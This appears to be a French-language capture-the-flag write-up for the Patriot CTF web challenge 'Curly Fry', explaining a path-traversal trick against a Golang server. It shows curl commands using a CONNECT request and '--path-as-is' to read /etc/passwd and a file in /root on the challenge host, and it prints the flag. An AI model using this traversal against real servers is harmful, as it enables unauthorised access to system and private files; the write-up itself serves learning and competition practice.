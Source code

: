 # Patriot CTF

## Web

### Curly Fry

**Dificulté :** Facile

**Enoncé :** Qui a besoin de Flask quand vous avez Golang -- la nouvelle méta pour les applications web.

Jetez un coup d'oeil à ce site web super élégant et fonctionnel.

***

A la connexion sur cette URL, on tombe sur la page **index.hmtl** avec le code source suivant :

```html
<html>
  <head>
    <title>Curly Fry</title>
  </head>
  <body>
    <h2>I will release my secret curly fry recipe when I am ready. For now it is safely held in my /root directory</h2>
  </body>
</html>
```

On se doutes donc qu'il faut accéder à un fichier dans le répertoire **/root**.

Il existe un exploit qui permet d'accéder à des ressources non-autorisées grâce à une requête CONNECT sur des serveurs web en Golang.

J'essaye dans un premier temps d'accéder au fichier **/etc/passwd** via curl : `curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../..
/etc/passwd`

Via la requête, j'accède bien au fichier souhaité :

![image](https://user-images.githubusercontent.com/49941629/166076146-30bb3dff-12a2-4c41-b867-73f19eb2b62b.png)

Ceci dit, impossible d'exécuter une commande pour lister le contenu du répertoire /root.

Après relecture ducode source HTML, je découvre l'existence du fichier recipe.txt. 

Je relance donc ma commande curl avec le chemin complet et je récupère le contenu : `curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../../root/recipe.txt`

![image](https://user-images.githubusercontent.com/49941629/166076128-1acaa89b-ad4e-4c55-900e-5062165d01f0.png)

FLAG : PCTF{tru5t_m3_im_4_ch3f}
